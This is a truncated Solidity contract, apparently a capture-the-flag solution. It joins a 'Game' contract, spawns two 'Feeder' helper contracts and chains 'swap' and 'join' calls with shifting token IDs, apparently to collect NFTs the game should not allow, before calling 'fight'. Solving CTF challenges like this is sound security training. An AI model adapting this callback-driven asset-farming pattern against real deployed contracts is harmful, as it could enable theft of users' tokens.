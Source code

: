 ```solidity 
    uint256 nfts_sent = 0;

    constructor(address _game)
    {
        game = Game(_game);

        game.join();

        feed1 = new Feeder(_game);
        feed2 = new Feeder(_game);
    }

    function getEmAll() public
    {
        game.swap(address(feed1), 3, 6);
    }

    function getNext() public
    {
        nfts_sent++;
        if(nfts_sent == 3)
        {
            game.join();
        }
        else if (nfts_sent == 6)
        {
            game.join();
        }

        if (nfts_sent < 3)
        {
            game.swap(address(feed1), 3+nfts_sent, 6+nfts_sent);
        } 
        else if (nfts_sent < 6)
        {
            game.swap(address(feed2), 9+nfts_sent, 6+nfts_sent);
        }
    }

    function fightEmAll() public
    {
        game.fight();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4)
    {
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```
